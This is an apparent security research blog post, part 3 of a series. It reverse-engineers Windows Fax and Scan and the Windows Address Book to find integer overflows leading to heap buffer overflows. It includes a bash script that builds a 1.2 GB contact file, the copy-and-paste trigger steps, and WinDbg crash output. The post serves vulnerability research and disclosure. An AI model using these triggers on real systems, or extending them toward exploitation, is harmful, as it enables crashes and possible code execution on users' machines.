










# Patch Diffing in the Dark 
---
# CVE-2021-1657 - Part 3 - Down But Not Out
created: 2021-04-20
author: John M


<sub>*Photo by [Joshua Earle](https://unsplash.com/@joshuaearle?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/s/photos/stars-dark?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)*</sub>

## Down But Not Out
In a previous blog post, we used a [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-1657) and [patch diffing](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md) as a road map to security relevant code and discovered a function `HrDupeAddrInfo` patched as a result of CVE-2021-1657. We speculated that the patched security issue was an integer overflow and were able to leverage dynamic analysis to understand the [type of data](https://docs.microsoft.com/en-us/previous-versions//ms735869(v=vs.85)) the function was duplicating.  We dug deeper in part 2 to understand and discover an [integer overflow](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Integer%20Overflow) within `CbAdrInfoSize` that we [failed](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#So%20Close%20Yet%20So%20Far)  to overflow because of several memory issues and unknown exceptions. The biggest revelation so far is that the identified integer overflow is not what [was patched](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Additional%20Bounds%20Check%20Preventing%20Heap%20Buffer%20Overflow)  in CVE-2021-1657, but a distinct vulnerability. The identified integer overflow results in the [same security issue](https://cwe.mitre.org/data/definitions/122.html) as CVE-2021-1657, albeit a bit more unwieldy. Despite our previous failure overflowing `CbAdrInfoSize`,  this code is broken, and we are going to prove it.

## There and Back Again

Unable to overcome the issues and exceptions experienced when trying to create [the optimal overflow contact file](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Creating%20the%20Optimal%20Overflow%20Contact%20file), I head back Ghidra to stare at assembly and decompiled functions, feeling mostly defeated.  

This time around, I notice something potentially game changing (that admittedly, should have been found sooner)... 


<sub>*Ghidra Listing Window - Cross-references highlighted*</sub>

**`CbAdrInfoSize` is used outside of `HrDupeAddrInfo`!!** Another function, `CWabal::HrBuildHGlobal`, was using this dodgy function! 

### CWabal::HrBuildHGlobal To the Rescue
Not sure yet what this new function is doing, or even how to reach the code path, I start by taking a look at how `CbAdrInfoSize` is used. 

```c
    do {
      uVar3 = CbAdrInfoSize((tagADRINFO *)local_a8);
      uVar8 = uVar8 + uVar3;
      if ((*(longlong *)(this + 8) == 0) || (*(longlong *)(this + 0x18) == 0)) break;
      iVar2 = FGetNext(this,(tagADRINFO *)local_a8);
    } while (iVar2 != 0);    
```
<sub>*`CWabal::HrBuildHGlobal` section using `CbAdrInfoSize`*</sub>

This time, `CbAdrInfoSize` is called **multiple times** and stored in, you guessed it, a beautiful `ulong` with only 4 bytes! There is hope.


#### Auditing CWabal::HrBuildHGlobal

Using the [technique explained](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Function%20Call%20Tree%20-%20Outgoing%20Calls)  while auditing `HrDupeAddrInfo`, we start with a high level view of the function leveraging Ghidra's *Function Call Tree* Window. 

It just so happens that the list of functions for `HrBuildHGlobal` 



look remarkably similar to the previously analyzed  `HrDupeAddrInfo` function.


It calculates a size based on the Windows Contact File (`CbAdrInfoSize`), allocates a buffer (`GlobalAlloc`) based on the determined size, and copies data (`memcpy`) to the new allocation. The key difference this time is that the size calculation is being performed in a loop! [Last time](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#So%20Close%20Yet%20So%20Far), we reached an "almost overflow" size of `0xfffff458` and this time we are sure to overflow. Once we figure out how to hit the code path...

## Back to Twiddling Knobs + Pressing Buttons

OK, once again time to switch back to *dynamic analysis* to get a better understanding of what this code is actually doing. It feels like we are starting all over again, but not quite. We have learned several things so far. Mostly, that we are dealing with [Windows Contact](https://en.wikipedia.org/wiki/Windows_Contacts) XML file, the details of the `CbAdrInfoSize` function, and we also now have experience interacting with Windows Contacts within the `WFS.exe` app. 

So like [last time](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Triggering%20the%20BP) , we set a [breakpoint](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bp--bu--bm--set-breakpoint-) on `FxsCompose!CWabal::HrBuildHGlobal`.  I loaded up `WFS.exe` in *WinDbg* and brought up the *Fax Compose Form* once again. I add contacts, groups of contacts, delete them from the form, add new ones, and anything I could think of to exercise functionality I haven't tried yet. 


Eventually:  

```
Breakpoint 0 hit
FxsCompose!CWabal::HrBuildHGlobal:
00007ffe`2836fec0 48895c2408      mov     qword ptr [rsp+8],rbx 
```

While it didn't take me too long to hit the breakpoint, the discovery as to why the code was executed took a bit more effort. I would love to say that I arrived at the conclusion via some systematic analysis approach or superior intellect, but that would be a lie. To be honest, I didn't know why the code triggered and I basically hit the breakpoint by accident. 

### Happy Accident via GFlags

The reason I was able to figure out what triggered the code path is because I had turned on several Windows enhanced debugging features via a utility called the *Global Flags Editor* or [GFlags](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/gflags).  This utility allows you to configure applications to run with advanced troubleshooting and diagnostics. Relevant for this case was the [loader snaps](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/show-loader-snaps) flag, which provides extra logging information in the *WinDbg* command window concerning externals library and class load and unloading. The WinDbg command window displayed the loader snap information with a vital clue.

```
0654:2770 @ 02584125 - LdrpLoadDllInternal - ENTER: DLL name: user32.dll
0654:2770 @ 02584125 - LdrpLoadDllInternal - RETURN: Status: 0x00000000
0654:2770 @ 02584125 - LdrpGetProcedureAddress - INFO: Locating procedure "MessageBeep" by name
0654:2770 @ 02584125 - LdrpGetProcedureAddress - INFO: Locating procedure "GetClipboardFormatNameW" by name
0654:2770 @ 02584125 - LdrpGetProcedureAddress - INFO: Locating procedure "RegisterClipboardFormatW" by name
...
17b4:15d0 @ 05362468 - LdrpGetProcedureAddress - INFO: Locating procedure "RevokeDragDrop" by name
17b4:15d0 @ 05362468 - LdrpGetProcedureAddress - INFO: Locating procedure "OleIsCurrentClipboard" by name
17b4:15d0 @ 05362468 - LdrpGetProcedureAddress - INFO: Locating procedure "OleFlushClipboard" by name
Breakpoint 2 hit
FxsCompose!CWabal::HrBuildHGlobal:
00007fff`f9f1fec0 48895c2408      mov     qword ptr [rsp+8],rbx ss:000000cb`3bccbf20=0000000000000000
```
<sub>*Loader Stub Log Info - `Ldrp` prefix showing various clipboard references*</sub>

There are several references to functions like `GetClipboardFormatNameW` and `OleFlushClipboard`. In all my adding, deleting, moving around of the contacts, I must have copy/pasted at some point! I try it again and sure enough this was the case.  I continued execution of the program, and tried copy/paste once more and I was back at the break points. I set another breakpoint on `CbAdrInfoSize` and could verify that there was a 1-to-1 ratio for the number of times `CbAdrInfoSize` was called within the loop to how many contacts I copied from the *Fax Compose Form*. The function seems to be called as a function providing the data for the `CTRL-V` paste action within the *Fax Compose* Window. More on that later, but for now, time to overflow!

### Copy / Paste N Objects

Knowing the memory issues with massive Windows Contacts files and the previous [problems](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Problems) with large allocations, I decide to create a large, but considerably smaller Windows Contact File. 

#### Creating the ideal 1.2 GB Windows Contact File




Back to my old slightly modified "duct tape and glue" script to build the XML file. 

```bash
dd if=1preFormmatedName.xml of=copy_paste_int_overflow

# Formatted name
echo copyPasteIntOverflow-contact >> copy_paste_int_overflow
cat 2preFamilyName.xml >> copy_paste_int_overflow

# Family name
echo familynameLast >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat 3preGivenName.xml >> copy_paste_int_overflow

# Given name
echo givennameFirst >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat 4preFax.xml >> copy_paste_int_overflow


# Faxnum
echo 55555Faxnum >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat "$fillerfile" >> copy_paste_int_overflow
cat 5end.xml >> copy_paste_int_overflow

ls -rota copy_paste_int_overflow
du -h copy_paste_int_overflow

```

Run the script to generate the *Windows Contact* XML file and copy it to the `~/Contacts` folder. 

```bash
$ bash make_copy_paste_int_ovf.sh
1+1 records in
1+1 records out
519 bytes copied, 0.0020103 s, 258 kB/s
-rw-r--r-- 1 dev2 1222377352 May 18 03:23 copy_paste_int_overflow
1.2G    copy_paste_int_overflow
$ cp copy_paste_int_overflow ~/Contacts/copy_paste_int_overflow.contact
```

From there, load two of the same contacts into the *Fax Compose Form* from within `WFS.exe`. Select-All. Copy. 



Set breakpoint on `CbInfoAddrSize`. 

```c
  uTotalSize = 0x10;
  if (((*(longlong *)(this + 8) != 0) && (*(longlong *)(this + 0x18) != 0)) &&
     (iVar2 = FGetFirst(this,(tagADRINFO *)&local_a8), iVar2 != 0)) {
    do {
      uSize = CbAdrInfoSize((tagADRINFO *)&local_a8);   [1]
      uTotalSize = uTotalSize + uSize;                  [2]
      if ((*(longlong *)(this + 8) == 0) || (*(longlong *)(this + 0x18) == 0)) break;
      iVar2 = FGetNext(this,(tagADRINFO *)&local_a8);
    } while (iVar2 != 0);
    hMem = GlobalAlloc(0x2042,(ulonglong)uTotalSize);   [3]
```
<sub>*Relevant decompiled code snippet from `HrBuildHGlobal`*</sub>

 *Paste!* On the paste, `HrBuildHGlobal` runs and calls `CbAdrInfoSize` [1] for each contact in the form. On the first call, the `uSize` calculated from the overflow contact is `0x91b7fac0` (at ~2.2GB we are more than half way there).  After return from the second go in the loop [2], `uTotalSize` (currently stored in `r15d`) adds `uSize` (stored in eax).

```c
00007ffd`4121ff21 e85aafffff       call    FxsCompose!CbAdrInfoSize 
00007ffd`4121ff26 4403f8           add     r15d, eax
```

If we do the math: 


We see `uTotalSize`, truncated to 32-bits in `r15d`, is now only `0x236ff5b0` (~560MB). **Integer overflow achieved!!**  When the call to make the memory allocation [3] occurs, `uTotalSize` is 560MB. We are now attempting to fit 2.2 GB of contact data into a 0.56 GB space. It will not end well. 

### StringCchCopy of Doom
```
(2204.1cfc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.

FxsCompose!StringCchCopyW+0x44:
00007ffd`41215d98 668901          mov     word ptr [rcx],ax ds:0000015e`707ab384=????

```
<sub>*WinDbg Command Output - Access Violation from Heap Buffer Overflow*</sub>

Later in `HrBuildHGlobal`, some of the contact data is being copied via `StringCchCopy` and as we learned in [Data Found](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657#Data%20Found):

> For `StringCchCopyW` this means that the first 4 arguments are passed in the registers `rcx` (*pszDest*), `rdx` (*cchDest*), `r8` (*pszSrc*), and `r9` (not used).  

For the copy function, the source data (*pszSrc*) is stored in `r8` with an allocation of 777 MB.

```
0:000> !address r8

Usage:                  PageHeap
Base Address:           0000018d`44440000
End Address:            0000018d`74d6b000
Region Size:            00000000`3092b000 ( 777.168 MB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        0000018d`44440000
Allocation Protect:     00000001          PAGE_NOACCESS
```
<sub>*Src data allocation in `r8`. Note this is just one element, not all the data.*</sub>


```
000001B5`1839FB80  0041004100410041 0041004100410041  A.A.A.A.A.A.A.A.
000001B5`1839FB90  0041004100410041 0041004100410041  A.A.A.A.A.A.A.A.
000001B5`1839FBA0  0041004100410041 0041004100410041  A.A.A.A.A.A.A.A.
000001B5`1839FBB0  0041004100410041 0041004100410041  A.A.A.A.A.A.A.A.
000001B5`1839FBC0  0041004100410041 0041004100410041  A.A.A.A.A.A.A.A.
000001B5`1839FBD0  0041004100410041 0041004100410041  A.A.A.A.A.A.A.A.
000001B5`1839FBE0  0041004100410041 0041004100410041  A.A.A.A.A.A.A.A.
000001B5`1839FBF0  0041004100410041 0041004100410041  A.A.A.A.A.A.A.A.
```
<sub>*WinDbg Memory Window - Source data in `r8`. Note this is one element, not all data.*</sub>

For the destination buffer (*pszDest*), created with a size of `uTotalSize`, the allocation is only 567MB.  
```
0:000> !address rcx

Usage:                  PageHeap
Base Address:           00000189`f65f0000
End Address:            0000018a`19cf0000
Region Size:            00000000`23700000 ( 567.000 MB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        00000189`f65f0000
Allocation Protect:     00000001          PAGE_NOACCESS
More info:              !heap -p 0x181cdd21000
More info:              !heap -p -a 0x189f65f0a78
```
<sub>*Dst data allocation in `rcx`. Insufficient allocation.*</sub>

### CVE-2021-XXXX Heap Buffer Overflow via Integer Overflow - CWabal::HrBuildHGlobal

That's right. We have an [heap buffer overflow via integer overflow](https://cwe.mitre.org/data/definitions/680.html) in `CWabal::HrBuildHGlobal`!  Not quite the `CbAdrInfoSize` function we were looking for, but directly related to it.  The heap overflow is with input data we control both the size and content for.  It exists in both Windows 7 `fxcompose.dll - 6.1.7601.24564` and Windows 20H2 `fxcompose.dll - 10.0.19041.746`.  We did it!  It took several tries, and we made several wrong assumptions along the way, but we made it to overflow. 

### Steps for POC
A summary for the steps taken to trigger the vulnerability are as follows. 

1. Create ~1GB contact
2. Open Fax Compose Form
3. Add the same  ~1GB Contact twice
4. Copy contacts from the *Fax Compose Form* Window. 
5. Paste (*CTRL-V*) back to the same window. (depends on original contact size)

In step 5, `CbAdrInfoSize` will be called N times. N representing the number of contacts copied, storing the result in a `ulong` that will quickly overflow, allocated a size much too small, and overflow the buffer with user controlled data.  

### Is It Dangerous?
When asking the question of whether or not this vulnerability is exploitable, the answer is always is that depends.  We need to revisit our research on [integer overflows](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Are%20They%20Dangerous). 

> This class of bug can be problematic to exploit, due to the fact that signed integers, when interpreted as unsigned, tend to be huge. For example, -1 when represented in hexadecimal is 0xffffffff. When interpreted as unsigned, this becomes the greatest value it is possible to represent in an integer (4,294,967,295), so if this value is passed to mempcpy as the len parameter (for example), memcpy will attempt to copy 4GB of data to the destination buffer. [Basic Integer Overflows - Phrack](http://phrack.org/issues/60/10.html)

The main issue with **reliable** exploitation of integer overflow bugs is that they typically cause a large uncontrolled overwrite.  Whatever integer amount was truncated to cause the allocation to be too small, will in most cases then be overwritten. For our 4 byte integer, this could cause an overwrite of up to 4GB, which would be detrimental to the heap and cause a crash!  That being said, integer overflows cause unexpected behavior, which is incompatible with a secure system.

Is it dangerous? I would argue that an unstable program is very dangerous, despite not being able to control it. There may be [some games to play](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#String%20Length%20Error%20Path%20Ignored) with the `CbAdrInfoSize` to work around the large overwrite, but at any rate there would be quite a bit of work to turn this into something like remote code execution. 

All hope is not lost on exploitation. Here are a few flickers of hope.  
- `WFS.exe` uses the older [NT Heap](https://slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version) (not [segment heap](https://www.blackhat.com/docs/us-16/materials/us-16-Yason-Windows-10-Segment-Heap-Internals-wp.pdf))
- several controlled allocations are made while loading a contact file, potentially allowing determined manipulation of heap
- seems to use data via system wide [clipboard](https://docs.microsoft.com/en-us/windows/win32/ipc/interprocess-communications#using-the-clipboard-for-ipc), maybe an angle there?

### Is It a Vulnerability?

Even though exploitation seems unlikely, is it a vulnerability? Yes. 

> A security vulnerability is a weakness in a product that could allow an attacker to compromise the integrity, **availability**, or confidentiality of that product. [MSDN](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc751383(v=technet.10)?redirectedfrom=MSDN)

If nothing else, availability is definitely affected with a 4GB overwrite :)  Not quite as dangerous as the heap overflow vulnerability patched in CVE-2021-1657, but still.  Job done?  Almost.  Even though we found yet another integer overflow in `HrBuildHGlobal`, it would have been nice to figure out why we couldn't overflow `CbAdrInfoSize` within `HrDupeAddrInfo`.

## Turtles All the Way Down

Remember all those [problems and exceptions](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Use%20After%20Free) from before?  It turns out the reason that some of those exceptions were being thrown is that our massive *Windows Contact* XML files caused **a distinct heap buffer overflow via integer overflow in a different module.** The [Windows Address Book](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/wab/-wab-overview) (now known as the *Windows Contacts* application) support library.   



### Integer Overflow Analysis Speed Run

By now you are tired of this game, so let's get to it. 



Load a large contact that looks like this. 



Exception caught in `memcpy` in *WinDbg*: 
```
(2490.1f44): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
msvcrt!memcpy+0x1eb:
00007ff9`6d4445ab 0f2b59e0        movntps xmmword ptr [rcx-20h],xmm3 ds:000001b5`183a0000=????????????????????????????????
```

Call stack says the `memcpy` came from `ScMergePropValues`, let's take a look. 
```
 # Child-SP          RetAddr               Call Site
00 043`826fd5c8 00007ff9`2eba64f3     msvcrt!memcpy+0x1eb
01 043`826fd5d0 00007ff9`2eb8b408     wab32!ScMergePropValues+0x183
02 043`826fd650 00007ff9`2eb8b9db     wab32!HrAddPrSearchKey+0x2a0
03 043`826fd700 00007ff9`2ebd7fd7     wab32!AddressBook::OpenEntry+0x4bb
04 043`826fd7b0 00007ff9`2ebbb274     wab32!HrGetPropArray+0x5f
05 043`826fd810 00007ff9`6bc32920     wab32!fnAddress+0x6b4
06 043`826fdae0 00007ff9`6bc320c2     USER32!UserCallDlgProcCheckWow+0x144
07 043`826fdbc0 00007ff9`6bc31fd6     USER32!DefDlgProcWorker+0xd2
08 043`826fdc80 00007ff9`6bc2e858     USER32!DefDlgProcW+0x36
< .. several lines omitted > 
18 043`826fe790 00007ff9`2ebba8dc     wab32!SHFusionDialogBoxParam+0x6a
19 043`826fe7d0 00007ff9`2eb8e09b     wab32!HrShowAddressUI+0x210
1a 043`826fe870 00007ff9`46a92956     wab32!AddressBook::Address+0x2b
1b 043`826fe8b0 00007ff9`46a80376     FxsCompose!CAddrWells::HrSelectNames+0x2e6
1c 043`826fedc0 00007ff9`46a7ddc1     FxsCompose!CNoteHdr::HrPickNames+0x2a
1d 043`826fee10 00007ff9`46a7d7e7     FxsCompose!CNoteHdr::WMCommand+0xa1

```

A birds eye view of the function:



Calculating a `uint` (4 byte) size, making an allocation, copying data.  Yep. [Dangerous](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Are%20They%20Dangerous).

```c
  uint uTotalSize;
  uint uSizeSource1;
  
  local_40 = (_SPropValue *)0x0;
  uVar5 = ScCountPropsEx(param_1,(uint *)param_2,8,&uSizeSource1);  // [1]
  lVar3 = (int)uVar5;
  uVar7 = 0;
  if (-1 < (int)uVar5) {
    uVar5 = ScCountPropsEx(param_3,(uint *)param_4,8,&uTotalSize);  // [2]
    lVar3 = (int)uVar5;
    if (-1 < (int)uVar5) {
      uTotalSize = uTotalSize + uSizeSource1;               //[3]
      local_58 = param_1 + param_3;
      lVar3 = MAPIAllocateBuffer(uTotalSize,&local_40);     //[4]
      uVar7 = param_1 + param_3;
      local_48 = lVar3;
      if (-1 < lVar3) {
```
<sub>*Ghidra Decompilation - `wab32!ScMergePropValues` relevant size calculation*</sub>

Stepping through you see the count for `uSizeSource1` returned from `ScCountPropsEx` was `0xf8` [1], and the count stored in `uTotalSize` was `0x00fdf3c8` [2]. It appears that the integer overflow actually occurs within `ScCountPropsEx` as both of these sizes are much too small.   The result from the two `ScCountPropsEx` calls added together [3] and passed into `MAPIAllocateBuffer` [4].

```
0:000> !address rcx

Usage:                  PageHeap
Base Address:           000001b5`173c0000
End Address:            000001b5`183a0000
Region Size:            00000000`00fe0000 (  15.875 MB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          PAGE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        000001b5`173c0000
Allocation Protect:     00000001          PAGE_NOACCESS
More info:              !heap -p 0x1b3ad5e1000
More info:              !heap -p -a 0x1b51839fb30

```
<sub> *WinDBG - Heap information for destination allocation observed in access violation above*</sub>

The resulting allocation from the `MAPIAllocateBuffer` function  is 16MB [4]. If we take a look at my contact size...

```bash
$ ll ~/Contacts/
-rw-r--r-- 1 dev2 197121 2155805780 May 19 18:39  wab32_int_overflow.contact
```

It was ~2.1 GB.

```
wab32_int_overflow.contact - MAX_INT
2155805780 - 0x7FFFFFF
_______
8322133

```

The Windows Contact XML file size is ~8MB over `MAX_INT`.  8MB \* 2 is 16MB. **Not a coincidence.** 

### CVE-2021-YYYY Heap Buffer Overflow via Integer Overflow - Wab32!ScMergePropValues

<sub> * `wab.exe /find` "Not Responding" while loading the overflow contact, eventually crashing and popping WinDbg *</sub>

